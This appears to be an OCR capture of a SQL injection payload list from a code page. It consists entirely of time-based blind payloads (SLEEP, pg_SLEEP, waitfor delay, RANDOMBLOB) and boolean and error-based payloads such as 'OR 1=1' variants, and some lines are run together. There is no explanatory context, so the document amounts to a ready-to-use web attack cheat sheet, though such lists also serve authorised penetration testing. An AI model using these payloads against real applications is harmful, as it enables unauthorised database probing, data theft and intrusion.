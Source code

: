 ```
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#

waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#

(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--

+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

### Error Based Payloads
```
OR 1=1
OR 1=0
OR x=x
OR x=y
OR 1=1#
OR 1=0#
OR x=x#
OR x=y#
OR 1=1-- 
OR 1=0-- OR x=x-- OR x=y-- HAVING 1=1HAVING 1=0HAVING 1=1#HAVING 1=0#HAVING 1=1-- HAVING 1=0-- AND 1=1AND 1=0AND 1=1-- AND 1=0-- AND 1=1#AND 1=0#AND 1=1 AND '%'='AND 1=0 AND '%'='
OR 3409=3409 AND ('pytW' LIKE 'pytW
OR 3409=3409 AND ('pytW' LIKE 'pytY
AND 1083=1083 AND (1427=1427
AND 7506=9091 AND (5913=5913
AND 1083=1083 AND ('1427=1427
AND 7506=9091 AND ('5913=5913
AND 7300=7300 AND 'pKlZ'='pKlZ
AND 7300=7300 AND 'pKlZ'='pKlY
```